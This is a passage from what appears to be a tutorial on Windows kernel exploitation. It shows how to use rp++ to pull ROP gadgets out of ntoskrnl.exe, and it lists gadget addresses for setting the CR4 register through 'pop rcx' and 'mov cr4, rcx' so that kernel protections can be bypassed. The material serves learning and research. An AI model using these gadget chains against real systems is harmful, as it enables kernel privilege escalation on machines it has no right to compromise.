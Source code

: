 Now, copy `C:\Windows\System32\ntoskrnl.exe` **from the VM** to your host machine.

Let's find some gadgets. I used [r++](https://github.com/0vercl0k/rp) for this because it has a nice Windows executable in the "Releases" section on Github, but you can use any one you want.  They all more or less do the same thing.  If you're feeling brave it's even possible to do this with just WinDbg, but in my opinion there's no reason to go through more pain than necessary.

```cmd
.\rp-win.exe --va 0 --file .\ntoskrnl.exe --rop 2 > gadgets.txt
```

Important options are:
- `--va 0`: give the gadgets in terms of their offsets from the start of the binary
- `--rop 2`: only show gadgets with two instruction depth

Looking through the `gadgets.txt` file for any mentions of `cr4`, we find the following: 

```txt
0x38a3cc: mov cr4, rax ; add rsp, 0x28 ; ret ; (1 found)
0x086557: mov cr4, rax ; mov cr4, rcx ; ret ; (1 found)
0x1e64e9: mov cr4, rax ; mov cr4, rcx ; ret ; (1 found)
0x384f10: mov cr4, rcx ; add rsp, 0x28 ; ret ; (1 found)
0x08655a: mov cr4, rcx ; ret ; (1 found)
0x1e64ec: mov cr4, rcx ; ret ; (1 found)
```

Either of the last two gadgets will do perfectly.  The `mov cr4, rcx ; ret` gadget allow us to set `cr4` to the value that's in `rcx`.  All we have to do now is find a gadget that puts a value in `rcx`.

```txt
...
0x378df6: pop rcx ; ret ; (1 found)
0x37a82d: pop rcx ; ret ; (1 found)
0x37e694: pop rcx ; ret ; (1 found)
0x384a8e: pop rcx ; ret ; (1 found)
0x38856a: pop rcx ; ret ; (1 found)
0x3895a3: pop rcx ; ret ; (1 found)
0x020b29: pop rcx ; ret ; (1 found)
0x036e83: pop rcx ; ret ; (1 found)
0x07db64: pop rcx ; ret ; (1 found)
...
```

As expected, there's about a million of them.

In a normal user mode exploit for a pwn chall, this would be all we need.  However, we have to to resume execution of the main kernel after the exploit is complete, so we need to take the previous function's stack frame into consideration.  If we just stack the gadgets starting at the return address, we'll corrupt the previous function's stack frame.
